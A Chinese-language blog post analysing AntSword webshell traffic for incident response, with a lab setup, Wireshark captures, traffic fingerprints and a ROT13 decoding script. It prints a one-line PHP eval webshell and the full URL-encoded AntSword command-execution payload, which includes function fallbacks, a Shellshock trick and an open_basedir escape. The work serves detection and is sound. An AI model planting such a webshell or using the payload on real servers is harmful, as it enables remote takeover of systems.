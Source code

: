 ```yaml
---
title: "蚁剑流量分析和溯源"
description: "Webshell分析---蚁剑流量分析和溯源"
date: 2024-01-15
tags:
  - "webshell"
  - "蚁剑"
  - "流量分析"
  - "应急响应"
authors:
  - "bx33661"
draft: false              # 设为 true 则为草稿
slug: "k8x9w22"          # 随机URL字符串
---
```


<meta name="referrer" content="no-referrer">



# 蚁剑流量分析和溯源

## 环境配置

:::info
采用的是 Ubuntu 虚拟机 加上 window + wireshark 的方式

:::

这里采用的桥连接

主要是配个 apache+php 环境

```plain
sudo apt update
sudo apt install apache2 -y
sudo apt install php libapache2-mod-php -y
sudo systemctl restart apache2
```

创建一个 PHP 漏洞

```plain
echo "<?php @eval(\$_POST['ant']); ?>" | sudo tee /var/www/html/shell.php
```

可以命令行查看 ip

```plain
ip addr
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744732099048-bd7444f5-55ef-4c0c-a0ca-ad982160e3ca.png)

打开 wireshark，，规则捕捉 VMnet8

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734750519-523f287c-2618-4fe1-9b03-4fd1acad7df9.png)

打开 yijian

连接 Ubuntu 漏洞

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734797818-575b20cc-9388-4414-a168-9d278ed44c44.png)

具体效果如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734712242-33d40c25-6b4c-4dda-b6f9-d89653532ba0.png)



## 流量特征分析

### 总结

1. <font style="color:rgb(33, 37, 41);">每个请求都以</font>`<font style="color:rgb(33, 37, 41);">@ini_set("display_errors",“0”);@set_time_limit(0);,</font>`<font style="color:rgb(33, 37, 41);">开头</font>
2. <font style="color:rgb(33, 37, 41);">对于响应包来说，我们采用默认的话，就是额外字符加返回结果，查询结果是</font>`<font style="color:rgb(192, 52, 29);background-color:rgb(251, 229, 225);">随机数 结果 随机数</font>`

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733826623-0c816d10-6dd7-4578-87a6-374003b7788c.png)

3.  以 HTTP POST 请求为主  （这个其实都一样）
4.  请求体参数化，常带有随机键名  







### 测试过程

#### 执行命令

> <font style="color:rgb(25, 27, 31);">蚁剑与网站进行数据交互的过程中，发送的数据是经过编码器编码后再发送，支持的编码方式有default默认的、base64、chr、chr16、rot13；网站返回的数据经过解码器中的编码方式编码后返回，支持的编码方式有default、base64、rot13</font>

解码和编码器都是 default

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733250271-1ea78baf-75b0-4bd0-8e39-efc744098d63.png)

```plain
whoami
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733204332-9836ef08-6a8a-4b55-8987-a3f283462ddc.png)

Wireshark 追踪 TCP 流

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744733135947-8521b612-3df9-4830-83df-05960e60f0bf.png)

```plain
ant=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(base64_decode(%22Lzt8Oi8%3D%22)%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.c27656278a11%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%24tmdir%3Drealpath(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22fc689%22.%22900e3%22%3Becho%20%40asenc(%24output)%3Becho%20%2229eac8%22.%22fa1502%22%3B%7Dob_start()%3Btry%7B%24p%3Dbase64_decode(substr(%24_POST%5B%22k1ec9ed6804696%22%5D%2C2))%3B%24s%3Dbase64_decode(substr(%24_POST%5B%22k99eb9fde3781e%22%5D%2C2))%3B%24envstr%3D%40base64_decode(substr(%24_POST%5B%22ndb0b51fc34194%22%5D%2C2))%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24c%3Dsubstr(%24d%2C0%2C1)%3D%3D%22%2F%22%3F%22-c%20%5C%22%7B%24s%7D%5C%22%22%3A%22%2Fc%20%5C%22%7B%24s%7D%5C%22%22%3Bif(substr(%24d%2C0%2C1)%3D%3D%22%2F%22)%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%22)%3B%7Delse%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3BC%3A%2FWindows%2Fsystem32%3BC%3A%2FWindows%2FSysWOW64%3BC%3A%2FWindows%3BC%3A%2FWindows%2FSystem32%2FWindowsPowerShell%2Fv1.0%2F%3B%22)%3B%7Dif(!empty(%24envstr))%7B%24envarr%3Dexplode(%22%7C%7C%7Casline%7C%7C%7C%22%2C%20%24envstr)%3Bforeach(%24envarr%20as%20%24v)%20%7Bif%20(!empty(%24v))%20%7B%40putenv(str_replace(%22%7C%7C%7Caskey%7C%7C%7C%22%2C%20%22%3D%22%2C%20%24v))%3B%7D%7D%7D%24r%3D%22%7B%24p%7D%20%7B%24c%7D%22%3Bfunction%20fe(%24f)%7B%24d%3Dexplode(%22%2C%22%2C%40ini_get(%22disable_functions%22))%3Bif(empty(%24d))%7B%24d%3Darray()%3B%7Delse%7B%24d%3Darray_map('trim'%2Carray_map('strtolower'%2C%24d))%3B%7Dreturn(function_exists(%24f)%26%26is_callable(%24f)%26%26!in_array(%24f%2C%24d))%3B%7D%3Bfunction%20runshellshock(%24d%2C%20%24c)%20%7Bif%20(substr(%24d%2C%200%2C%201)%20%3D%3D%20%22%2F%22%20%26%26%20fe('putenv')%20%26%26%20(fe('error_log')%20%7C%7C%20fe('mail')))%20%7Bif%20(strstr(readlink(%22%2Fbin%2Fsh%22)%2C%20%22bash%22)%20!%3D%20FALSE)%20%7B%24tmp%20%3D%20tempnam(sys_get_temp_dir()%2C%20'as')%3Bputenv(%22PHP_LOL%3D()%20%7B%20x%3B%20%7D%3B%20%24c%20%3E%24tmp%202%3E%261%22)%3Bif%20(fe('error_log'))%20%7Berror_log(%22a%22%2C%201)%3B%7D%20else%20%7Bmail(%22a%40127.0.0.1%22%2C%20%22%22%2C%20%22%22%2C%20%22-bv%22)%3B%7D%7D%20else%20%7Breturn%20False%3B%7D%24output%20%3D%20%40file_get_contents(%24tmp)%3B%40unlink(%24tmp)%3Bif%20(%24output%20!%3D%20%22%22)%20%7Bprint(%24output)%3Breturn%20True%3B%7D%7Dreturn%20False%3B%7D%3Bfunction%20runcmd(%24c)%7B%24ret%3D0%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(fe('system'))%7B%40system(%24c%2C%24ret)%3B%7Delseif(fe('passthru'))%7B%40passthru(%24c%2C%24ret)%3B%7Delseif(fe('shell_exec'))%7Bprint(%40shell_exec(%24c))%3B%7Delseif(fe('exec'))%7B%40exec(%24c%2C%24o%2C%24ret)%3Bprint(join(%22%0A%22%2C%24o))%3B%7Delseif(fe('popen'))%7B%24fp%3D%40popen(%24c%2C'r')%3Bwhile(!%40feof(%24fp))%7Bprint(%40fgets(%24fp%2C2048))%3B%7D%40pclose(%24fp)%3B%7Delseif(fe('proc_open'))%7B%24p%20%3D%20%40proc_open(%24c%2C%20array(1%20%3D%3E%20array('pipe'%2C%20'w')%2C%202%20%3D%3E%20array('pipe'%2C%20'w'))%2C%20%24io)%3Bwhile(!%40feof(%24io%5B1%5D))%7Bprint(%40fgets(%24io%5B1%5D%2C2048))%3B%7Dwhile(!%40feof(%24io%5B2%5D))%7Bprint(%40fgets(%24io%5B2%5D%2C2048))%3B%7D%40fclose(%24io%5B1%5D)%3B%40fclose(%24io%5B2%5D)%3B%40proc_close(%24p)%3B%7Delseif(fe('antsystem'))%7B%40antsystem(%24c)%3B%7Delseif(runshellshock(%24d%2C%20%24c))%20%7Breturn%20%24ret%3B%7Delseif(substr(%24d%2C0%2C1)!%3D%22%2F%22%20%26%26%20%40class_exists(%22COM%22))%7B%24w%3Dnew%20COM('WScript.shell')%3B%24e%3D%24w-%3Eexec(%24c)%3B%24so%3D%24e-%3EStdOut()%3B%24ret.%3D%24so-%3EReadAll()%3B%24se%3D%24e-%3EStdErr()%3B%24ret.%3D%24se-%3EReadAll()%3Bprint(%24ret)%3B%7Delse%7B%24ret%20%3D%20127%3B%7Dreturn%20%24ret%3B%7D%3B%24ret%3D%40runcmd(%24r.%22%202%3E%261%22)%3Bprint%20(%24ret!%3D0)%3F%22ret%3D%7B%24ret%7D%22%3A%22%22%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&k1ec9ed6804696=spL2Jpbi9zaA%3D%3D&k99eb9fde3781e=zoY2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI%3D&ndb0b51fc34194=4z
```

先 url 解码，比如说我们对最后一个 base64 处理

```plain
zoY2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI%3D&ndb0b51fc34194=4z

# 删除前面的zo

Y2QgIi92YXIvd3d3L2h0bWwiO3dob2FtaTtlY2hvIGE5MDA4YjM7cHdkO2VjaG8gYTczOGUzZGI
--->
cd "/var/www/html";whoami;echo a9008b3;pwd;echo a738e3db
```



#### chr 编码 + rot13 回显

> 其实总体来说，所以逻辑和格式都是一样的，就是发包和收包的编码格式不一样，我的理解是就是加一层编解码处理

情况如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734231165-2395ca2c-b668-49aa-a25c-002eea005734.png)

rot13 回显如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734390710-238abec6-a058-4f46-b096-f7ce8294b1bd.png)

解码如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1744734426799-d4397a64-b4fd-40b5-a5a3-a98e6ecde36f.png)



## 附件

### rot13 解码脚本

```python
import codecs

def rot13_decode(text):
    try:
        decoded_text = codecs.decode(text, 'rot_13')
        return decoded_text
    except Exception as e:
        print(f"解码时发生错误: {e}")
        return None

if __name__ == "__main__":
    while True:
        encoded_text = input("请输入要进行 ROT13 解码的文本 (输入 'quit' 退出): ")
        if encoded_text.lower() == 'quit':
            break
        decoded_result = rot13_decode(encoded_text)

        if decoded_result is not None:
            print(f"ROT13 解码结果: {decoded_result}\n")
    print("脚本已退出。")

def rot13_manual(text):
    result = []
    for char in text:
        char_code = ord(char)
        if 'A' <= char <= 'Z':
            new_code = ord('A') + (char_code - ord('A') + 13) % 26
            result.append(chr(new_code))
        elif 'a' <= char <= 'z':
            new_code = ord('a') + (char_code - ord('a') + 13) % 26
            result.append(chr(new_code))
        else:
            result.append(char)

    return "".join(result)

```

